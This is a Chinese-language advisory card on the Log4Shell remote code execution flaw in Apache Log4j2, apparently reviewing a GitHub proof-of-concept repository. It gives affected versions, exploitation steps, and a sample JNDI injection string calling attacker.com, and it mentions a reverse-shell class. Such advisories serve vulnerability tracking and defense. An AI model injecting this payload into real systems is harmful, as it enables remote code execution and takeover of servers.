 ## CVE-2021-44228-Log4Shell-RCE

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行(RCE)

**影响应用:** Apache Log4j2

**危害等级:** 极高危，可能导致完全控制受影响的系统

**影响版本:** 2.0-beta9 到 2.15.0 (不包含安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用受影响版本的Log4j2，且启用了message lookup substitution功能。攻击者能够控制Log4j2记录的日志消息或参数。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2021-44228，又名Log4Shell，是一个存在于Apache Log4j2中的严重远程代码执行漏洞。该漏洞利用了Log4j2的JNDI（Java Naming and Directory Interface）特性，允许攻击者通过控制日志消息或参数，注入恶意的JNDI查找字符串。当Log4j2解析并执行这些字符串时，它会从攻击者控制的LDAP或其他JNDI服务下载并执行任意Java代码，从而实现远程代码执行。 

**有效性：**根据漏洞库信息和搜索结果，此漏洞影响广泛，且存在公开可用的漏洞利用代码，因此该漏洞的利用是有效的。

**投毒风险：**提供的Dockerfile用于构建包含app.jar的镜像。Exploit.java代码尝试建立一个反向shell连接到 `host.docker.internal` 的9000端口。该代码本身并没有发现明显的投毒行为，而是实现了漏洞利用的基本功能，即建立反向shell。`host.docker.internal` 在docker 容器中可以解析为主机的ip地址。因此，投毒风险评估为0%。

**利用方式：**
1.  攻击者找到一个应用程序，该程序使用易受攻击版本的Log4j2并记录用户可控的输入。
2.  攻击者将恶意JNDI查找字符串（例如 `${jndi:ldap://attacker.com/Exploit}`）注入到这些输入中。
3.  当Log4j2记录包含恶意字符串的日志消息时，它会尝试解析JNDI查找。
4.  Log4j2连接到攻击者控制的LDAP服务器（或其它JNDI服务）。
5.  攻击者的LDAP服务器返回一个指向恶意Java类的URL。
6.  Log4j2从URL下载并执行恶意Java类，从而实现远程代码执行。例如提供的Exploit.java。
7.  Exploit.java 代码，会尝试创建一个反向shell，连接到攻击者指定的 `host:port` ，从而控制目标系统。

**项目地址:** [d4ngkh04w/CVE-2021-44228-Apache-Log4j](https://github.com/d4ngkh04w/CVE-2021-44228-Apache-Log4j)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)